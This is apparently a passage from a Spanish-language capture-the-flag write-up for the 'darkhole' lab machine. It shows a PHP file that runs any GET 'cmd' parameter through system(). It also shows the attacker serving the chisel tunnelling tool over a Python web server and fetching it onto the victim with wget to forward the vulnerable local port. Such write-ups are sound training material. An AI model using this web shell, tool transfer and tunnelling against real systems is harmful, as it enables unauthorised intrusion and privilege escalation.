 ```ruby
tcp6       0      0 :::80                   :::*                    LISTEN      -                    off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      -                    off (0.00/0/0)
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                    off (0.00/0/0)
udp        0      0 192.168.200.140:68      0.0.0.0:*                           -                    off (0.00/0/0)
jehad@darkhole:~$ ps -faux | grep 9999
losy        1237  0.0  0.0   2608   536 ?        Ss   16:22   0:00      \_ /bin/sh -c  cd /opt/web && php -S localhost:9999
losy        1245  0.0  0.4 193672 18984 ?        S    16:22   0:01          \_ php -S localhost:9999
jehad     146417  0.0  0.0   8160   724 pts/0    S+   21:53   0:00              \_ grep --color=auto 9999
jehad@darkhole:~$ 
```

En el cuadro anterio se puede evidenciar que el servico web esta levando por un servidor php, y se ejecuta con el usuario propietario losy. El objetiv es taratr de ver que esta corriendo en el archivo index.php.

```ruby
jehad@darkhole:/opt/web$ 
jehad@darkhole:/opt/web$ 
jehad@darkhole:/opt/web$ ls 
index.html  index.php
jehad@darkhole:/opt/web$ 
jehad@darkhole:/opt/web$ cat index.php 
<?php
echo "Parameter GET['cmd']";
if(isset($_GET['cmd'])){
echo system($_GET['cmd']);
}
?>
```
Se puede indentificar que existe inyección de comandos mediante el archivo index.php, por lo que se puede utilizar [chisel](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz) para hacer remotporforwarding, y utilizar la vulnerabilidad.

>```python
>wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
>gunzip chisel_1.7.7_linux_amd64.gz
>mv chisel_1.7.7_linux_amd64 chisel
>chmod +x chisel
>```

#### Creación servidor web
Con el archivo comprimido, y para compartir el archivo con equipo victima se puede usar un servidor web con python3.
>```bash
> sudo python3 -m http.server 80
>```
Desde el servidor web utilizamos la herramienta wget 
#### Descarga de chisel desde un server web
```ruby
jehad@darkhole:/opt/web$ wget http://192.168.200.139:80/chisel
--2022-12-22 02:26:21--  http://192.168.200.139/chisel
Connecting to 192.168.200.139:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8077312 (7.7M) [application/octet-stream]
Saving to: ‘chisel’

chisel                                          100%[=======================================================================================================>]   7.70M  --.-KB/s    in 0.1s    
```